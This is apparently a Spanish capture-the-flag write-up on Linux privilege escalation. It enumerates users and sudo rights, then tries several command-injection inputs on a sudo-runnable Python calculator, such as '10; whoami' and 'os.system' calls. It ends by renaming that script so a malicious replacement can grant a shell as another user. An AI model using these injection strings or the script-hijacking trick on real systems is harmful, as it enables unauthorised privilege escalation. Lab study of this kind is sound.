 
## Escalada de Privilegios
### Enumeracion del Sistema
Usuarios del sistema:
```bash
root:x:0:0:root:/root:/bin/bash
404-page:x:1001:1001:404-page,,,:/home/404-page:/bin/bash
200-ok:x:1000:1000:200-ok,,,:/home/200-ok:/bin/bash
```

Listando los permisos del usuario tenemos lo siguiente
```bash
# Comandos clave ejecutados
sudo -l

User 404-page may run the following commands on 7f21bcd0d78f:
    (200-ok : 200-ok) /home/404-page/calculator.py # Tenemos una via potencial de migrar a este usurio
```
### Explotacion de Privilegios

###### Usuario `[ 404-page ]`:
Despues de ejecutar el script en python
```bash
sudo -u 200-ok /home/404-page/calculator.py
```

E intentar escapar comandos no tuvimos exito:
```bash
calculator> 10; whoami
Error: invalid syntax (<string>, line 1)
calculator> 10 && whoami
Error: invalid syntax (<string>, line 1)
calculator> 10 | whoami
Error: name 'whoami' is not defined
calculator> 10 | import os; os.system("whoami")
Error: invalid syntax (<string>, line 1)
calculator> 10 | echo $(whoami)
Error: invalid syntax (<string>, line 1)
calculator> 10 | cmd=whoami; $cmd
Error: invalid syntax (<string>, line 1)
```

**Nota** Sabiendo que el archivo no nos pertenece pero como esta en nuestro directorio y quiero pensar que los persmisos de nuestro directorio se inponen sobre los del archivo, Asi que intentaremos cambiarle el nombre al archivo a cualquier otro.
```bash
mv calculator.py natepaga.py
```

Ya que logramos cambiar el nombre, Crearemos el nuestro propio malicioso para que nos otrogue una shell como este usario.
```bash
touch calculator.py
chmod +x calculator.py
```
